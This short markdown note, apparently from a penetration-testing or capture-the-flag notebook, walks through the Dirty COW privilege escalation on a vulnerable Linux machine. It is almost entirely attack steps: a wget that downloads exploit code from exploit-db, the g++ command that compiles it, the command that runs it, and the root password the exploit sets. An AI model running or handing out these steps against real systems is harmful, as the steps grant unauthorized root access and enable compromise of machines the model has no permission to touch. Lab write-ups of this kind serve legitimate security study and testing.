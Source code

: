 # Dirty COW Race Condition Privilege Escalation

On the vulnerable machine

Download the exploit code:

```bash
wget -O 40847.cpp https://www.exploit-db.com/download/40847
```


Compile:  
```
g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
```

Run: 
```
./dcow -s
```

Result:

![](/images/dirtycow.png)

Root user password: ```PoorLittleCow```

